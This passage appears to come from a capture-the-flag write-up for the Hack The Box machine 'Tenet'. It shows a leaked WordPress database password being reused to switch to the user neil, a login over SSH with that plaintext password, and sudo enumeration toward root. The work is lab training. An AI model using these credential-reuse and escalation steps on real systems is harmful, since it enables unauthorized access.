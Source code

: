     /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );                
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );
    
    define( 'WP_HOME', 'http://tenet.htb');  
    define( 'WP_SITEURL', 'http://tenet.htb');
    ...[snip]...
    

Noticing the DB username was neil, before connecting to the DB, I tried `su`
with that password, and it worked:

    
    
    www-data@tenet:/var/www/html/wordpress$ su - neil
    Password: 
    neil@tenet:~$
    

From here I could grab `user.txt`:

    
    
    neil@tenet:~$ cat user.txt
    567d3388************************
    

That password also works for SSH access as neil:

    
    
    root@kali# sshpass -p Opera2112 ssh neil@10.10.10.223
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
    ...[snip]...
    Last login: Tue Jan 12 19:33:02 2021 from 10.10.14.2
    neil@tenet:~$
    

## Shell as root

### Enumeration

`sudo -l` is typically my first check, and it finds something here:

    
    
    neil@tenet:~$ sudo -l
    Matching Defaults entries for neil on tenet:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:
    
    User neil may run the following commands on tenet:
        (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
    

neil can run `/usr/local/bin/enableSSH.sh` as root without password.
